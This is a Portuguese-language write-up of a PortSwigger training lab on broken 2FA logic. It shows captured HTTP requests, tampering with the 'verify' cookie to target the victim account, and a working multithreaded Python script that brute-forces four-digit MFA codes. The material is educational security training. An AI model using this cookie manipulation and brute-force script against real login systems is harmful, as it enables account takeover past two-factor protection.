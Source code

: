 ```yaml
---
title: 2FA Broken Logic
date: 2024-03-23 19:35:00 +0300
categories: [anotacoes, web application security, weblogic]
tags: [anotacoes, web application security, weblogic]     # TAG names should always be lowercase
---
```



## PortSwigger Lab
![weblogic2](https://i.imgur.com/IbjjEP2.png)

## Escopo
Esse laboratório demonstra uma vulnerabilidade de 2FA, abaixo temos os dados para realiza-lo:

- A autenticação de dois fatores deste laboratório é vulnerável devido à sua falha lógica. Para resolver o laboratório, precisamos acessar a página da conta do Carlos.
- credenciais: wiener/peter
- Nome de usuário da vítima:carlos
- Acesso ao servidor de e-mail para receber seu código de verificação 2FA.

## Analisando a requisição POST
**1** - Ao acessar o lab, com o Burp em execução, fiz login com a conta wiener e analisei o processo de verificação 2FA. Observamos que na requisição POST /login2 onde o paramatro verify é utilizado para determinar qual conta do usuário está sendo acessada.
```bash
POST /login HTTP/2
Host: example.web-security-academy.net
Cookie: verify=wiener; session=yoursession
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://example.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7

username=wiener&password=peter
```

## Solicitando o código 2FA para a conta ***carlos***
Após a analise, sai da conta wiener e enviei uma requisição GET /login2, alterando o parametro verify para carlos, dessa forma um código 2FA temporário foi gerado para o usuário carlos. 

```bash
GET /login2 HTTP/2
Host: example.web-security-academy.net
Cookie: verify=carlos; session=yoursession
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7
```

## Criando script python 
Em seguida fui até a página de login, digitei o usuário e senha do usuário wiener e coloquei um código inválido. Por fim enviei uma requisição POST /login, definindo o parametro verify=carlos e adicionando um payload ao parametro mfa-code que também foi encontrado no inicio da análise. Utilizando o Intruder no Burp Suite é possível fazer um brute-force para descobrir o código 2FA de 4 digitos porém esse processo pode ser muito lento se você não tem a versão profissional. Por isso fiz um script em Python que trabalha com ThreadPoolExecutor para enviar diversas requisições simultaneas, facilitando o processo de descoberta e evitando expirar a sessão do laboratório, além de identificar quando o código da resposta da solicitação for 302 e analisando o tamanho de cada resposta em bytes:
```python
import requests
import concurrent.futures

url = 'https://example.web-security-academy.net/login2'
headers = {
    'Host': 'example.web-security-academy.net',
    'Cookie': 'verify=carlos; session=yoursession',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Origin': 'https://example.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://example.web-security-academy.net/login2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}

def send_request(mfa_code):
    payload = {'mfa-code': f'{mfa_code:04d}'}
    response = requests.post(url, headers=headers, data=payload)
    if response.status_code == 302:
        print(f'Success! Code is: {mfa_code:04d}, Response size: {len(response.content)} bytes')
    else:
        print(f'Tried code {mfa_code:04d}, Status code: {response.status_code}, Response size: {len(response.content)} bytes')

# Define a função principal para execução concorrente
def main():
    # Usando ThreadPoolExecutor para criar várias threads
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        # Enviar solicitações para códigos MFA de 9999 a 0000
        executor.map(send_request, range(9999, -1, -1))

if __name__ == "__main__":
    main()
```
## Autenticação bem sucedida
Após a execução do script, descobrimos o valor do código 2FA e conseguimos completar o laboratório obtendo acesso a conta do Carlos.

![weblogic](https://i.imgur.com/qCHA9CW.png)

- Referências: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic